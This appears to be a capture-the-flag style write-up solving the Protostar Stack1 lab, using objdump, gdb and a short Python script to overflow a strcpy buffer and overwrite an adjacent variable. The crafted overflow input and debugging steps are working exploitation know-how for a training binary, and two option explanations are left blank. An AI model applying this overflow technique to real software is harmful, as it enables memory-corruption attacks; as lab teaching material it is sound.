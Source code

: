 ```yaml
---
title: Protostar - Stack 1
date: 2024-02-14 10:30:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack1]
---
```


## Conquering Stack1 at Protostar Machine

Greetings, hackers of the digital realm! Today, we will continue our journey  on [Protostar](https://exploit.education/protostar) machine  to conquer the [Stack1](https://exploit.education/protostar/stack-one/) binary.

This challenge requiring us to perform a stack overflow and override the next value in the buffer with specific value as we see later.

### **Challenge Overview**
- **Challenge Name:** [Stack1](https://exploit.education/protostar/stack-one/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary

let,s run stack1 binary and see it,s behavoior

![stack1 run](/assets/img/protostar/stack1-explore.png)

- We Found that the binary need an argument to work and after we run it with argument it run

### Step 2: Analysis
Disassemble stack1 binary

we can disassemble stack1 binary by `objdump`

```sh
objdump -M intel -d /opt/protostar/bin/stack1 | grep main -A 32
```

- `-M` stands for
- `-d` stand for
- we grep `main` from the disassembled output because `main` as we know is the entrypoint for any `C` program and first function executed from it.

objdump output:

![Stack1 Objdump](/assets/img/protostar/stack1-objdump.png)
    
Analysis:

1. Function Prologue:

- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.

2. Conditional Check:

- `cmp DWORD PTR [ebp+0x8],0x1`  Compare the value at `[ebp+0x8]` with `0x1`.
- `jne 8048487 <main+0x23>` Jump to `0x08048487` if the comparison is not equal.

3. Branches:

 If the condition is not met, the program jumps to `0x08048487`, Otherwise, it continues with the next instructions.

4. Function Calls and Memory Operations:

- `call 8048388 <errx@plt>` Calls the `errx` function.
- `call 8048368 <strcpy@plt>` Calls the `strcpy` function.
- `call 8048378 <printf@plt>` Calls the `printf` function.

5. Memory Comparisons:

- `mov eax,DWORD PTR [esp+0x5c]` move value at pointer `esp+0x5c` and store it in `eax`
- `cmp eax, 0x61626364`: Compare the value in `eax` with `0x61626364`.

6. Conditional Jumps:

- `jne 0x80484c0` <main+0x5c>: Jump to `0x080484c0` if the comparison is not equal.
- `jmp 0x80484d5` <main+0x71>: Jump to `0x080484d5` unconditionally.

7. Function Epilogue:

- `leave` Restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` Return from the function.

Now we understand the flow of program :

1. during run it first check argument provided and if no args provided it call errx with a error message which print it and exit 
2. argument provided will be copied to buffer
3. check if `[esp+0x5c]==0x61626364` then call puts,print then return and else call print only and return 

`[esp+0x5c]` is interesting , we need to check to it when debugging

### Step 3: Debugging

- first let,s write simple script for fuzz let,s call it `fuzz.py`

`~/fuzz.py` :

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```

- now let,s debug `stack1` binary useing `gdb`
```sh
gdb /opt/protostar/bin/stack1
```
now let,s disassemble main, and break point at mov eax,ptr dword[esp+0x5c]
```sh
set disassembly-flavor intel
disassemble main
```
![Stack1 on GDB](/assets/img/protostar/stack1-gdb-main.png)

now let,s breakpoint at `0x080484a7 <main+67>:	mov   eax,DWORD PTR [esp+0x5c]` to examine value at pointer `esp+0x5c` 
```sh
breakpoint *0x080484a7
```

now let,s run our program `stack1` with argument that contain our fuzzing value
```sh
run $(python ~/fuzz.py)
```

![Stack1 on gdb final](/assets/img/protostar/stack1-gdb-final.png)

show value at pointer at `esp+0x5c` with :

```sh
x/wx $esp+0x5c
```

when we get value at pointer at $esp+0x5c we found it = `0x51515151`

let,s get the ascii value of `0x51`

![Python chr(0x51)=Q](/assets/img/protostar/python-chr-51h.png)

so `0x51515151` represent `QQQQ` and  we need to make `esp+0x5c` = `0x61626364` to make the cmp instruction work truthy


### Step 4: Craft Solution 

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x64\x63\x62\x61" # represent 0x61626364 on little endian machines
print(fuzz+esp_plus_5c)
```

now run `stack1` binary with our crafted soluation:

```sh
/opt/protostar/bin/stack1 $(python ~/fuzz.py)
```

and it Works !
![Stack1 Solved](/assets/img/protostar/stack1-solved.png)

